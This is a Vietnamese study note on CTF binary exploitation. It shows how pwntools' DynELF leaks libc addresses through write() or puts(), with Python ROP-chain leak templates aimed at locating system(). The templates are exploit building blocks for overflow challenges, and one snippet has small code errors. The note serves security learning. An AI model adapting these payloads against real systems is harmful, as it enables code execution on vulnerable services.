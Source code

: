 # DynELF pwntools

> DynELF Module pwntools - Resolving remote functions using leaks.

- [Link-DynELF_pwntools](https://docs.pwntools.com/en/stable/dynelf.html) .

- Trong thực tế một số challenge không cung cấp libc.so nhưng vẫn có các hàm output có thể được sử dụng để leak giá trị (khác với ret2dlresolve là không có hàm output).
- Khi đó khớp trực tiếp libc.so từ module - hàm DynELF trong pwntools.
- Điều kiện yêu cầu là địa chỉ thực trong LIBC và các hàm output: `write, puts, printf, ...`

### `[A] write()` 
- Khi hàm output của chương trình được cung cấp là hàm write, chúng ta có thể sử dụng hàm write để xuất địa chỉ thực của hàm write. Mẫu viết DynELF(64-bits) của chức năng write được cung cấp:
```python
def leak(address):
    payload = padding
    payload += p64(pop_rdi_ret) + p64(1)
    payload += p64(pop_rsi_ret) + p64(address)
    payload += p64(pop_rdx_ret) + p64(8)
    payload += p64(write_plt)
    payload += p64(ret_address)
    p.send(payload)
    data = p.recv(8)
    return data

d=DynELF(leak, elf=ELF("./program")
system_address=d.lookup("system", "libc")
log.info("system LIBC address: " + hex(system))
```

### `[B] puts()`
- Khi là hàm puts, đầu ra của hàm puts khó kiểm soát hơn nhiều so với đầu ra của chức năng write vì chúng ta có thể kiểm soát đầu ra của hàm write bao nhiêu byte  còn đầu ra của hàm puts là cho đến khi gặp ký tự NULL
=> khó khăn hơn cho việc leak vì ta vẫn chỉ cần 4 byte đầu khi leak. Khi sử dụng puts sẽ xuất hiện hai tình huống:                                                                                                                                                                                          
    * `1.` Không còn dữ liệu nào của chương trình được in ra sau khi dùng pus để leak.
    * `2.` Có dữ liệu của chương trình được in ra sau khi sử dụng puts để leak. VD: "<value use puts => leak>Helloworld!!!"
- Mẫu chương trình, với trường hợp hai chỉ cần thay `c=b""` = `c=b"H"`.

```python
def leak(address):
	count = 0
	data = b""
	payload = b"A" * 64 + b"B" * 8
	payload += p64(pop_rdi) + p64(address)
	payload += p64(puts_plt)
	payload += p64(start_addr)
	payload = payload.ljust(200, b"B")
	p.send(payload)
	print(p.recvuntil(b"bye~\n"))
	up = b""
	while True:
		c = p.recv(numb=1, timeout=0.5)
		count += 1
		if up == b'\n' and c == b"":
			data = data[:-1]
			data += b"\x00"
			break
		else:
			data += c
		up = c
	data = data[:4]
	log.info("%#x => %s" % (address, (data or b'')))
	return data
```

- References:
    * https://blog.csdn.net/qq_43986365/article/details/100182414

    * https://www.anquanke.com/post/id/85129

    * Challenge pwn-100, pwn-200 của XCTF.


